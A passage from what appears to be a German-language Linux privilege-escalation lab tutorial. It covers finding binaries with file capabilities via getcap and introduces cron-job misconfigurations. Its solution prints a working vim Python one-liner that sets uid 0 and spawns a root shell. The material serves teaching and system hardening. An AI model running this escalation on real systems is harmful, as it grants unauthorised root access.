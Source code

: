 Capabilities sind eine Möglichkeit Rechte feingranularer zu vergeben. Wenn der Admin dem User keine erweiterten Rechte geben möchte kann er einem Tool einzelne Berechtigungen geben. Dadurch kann der User das Tool nutzen und bekommt keine Berechtigungsfehler, hat aber selbst keine erweiterten Rechte.

Mit dem Befehl `getcap` lassen sich Executables mit erweiterten Capabilities aufspüren (um die Ausgabe kompakt zu halten werfen wir die Fehlerausgaben weg `2>/dev/null`).

```
getcap -r / 2>/dev/null
```

[gtfobins](https://gtfobins.github.io/) hilft euch auch bei Capabilities weiter.

### Aufgabe

Findet eine Datei mit gesetzten Capabilities und den passenden Exploit auf [gtfobins](https://gtfobins.github.io/).

### Lösung

```
getcap -r / 2>/dev/null
```

Damit finden wir die Kopie von vim unter /home/john/vim mit erweiterten Rechten.

Auf [gtfobins](https://gtfobins.github.io/gtfobins/vim/) finden wir eine Möglichkeit wie wir uns mit vim und dieser Capability root-Rechte holen können.

```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Damit setzt vim für sich selbst die uid auf 0 (root) und startet mit diesen Rechten eine Shell.

### Lessons Learned
Durchsuche dein System mit `getcap`, welche Programme Capabilitites haben und prüfe auf [gtfobins](https://gtfobins.github.io/), ob das ausgenutzt werden kann.

## CronJobs
Cron Jobs erlauben es, Programme oder Skripte zu bestimmten Zeiten automatisiert ausführen zu lassen.
Diese Jobs werden in einer Datei gespeichert, `/etc/crontab` welche standardmäßig nur mit root-Rechten bearbeitbar ist. Was die Zahlen und Sterne bedeuten erklärt bspw. [crontab.guru](https://crontab.guru/). Anzeigen lassen können wir sie bspw. mit `cat /etc/crontab`. Ausgeführt werden diese Jobs dann vom Cron-Daemon und zwar mit den Rechten des Besitzers der Datei.

> **_Hinweis:_**  Cron läuft aufgrund der "Ein Prozess pro Container"-Richtlinie nicht wirklich gut in Docker.
> Das Beispiel kann deshalb im Docker Container nicht nachgestellt werden. Trotzdem sollten Enum Skripte diese Miskonfiguration erkennen.

### Pfad-Variable
Am Anfang der Cron Tabelle ist zum einen die Shell definiert, welche Cron verwendet. Zum anderen wird eine Pfad-Variable definiert, in welcher Cron nach ausführbaren Dateien sucht, wenn ihr Aufruf nicht mit vollqualifiziertem Pfad erfolgt. Die Reihenfolge ist dabei von links nach rechts.
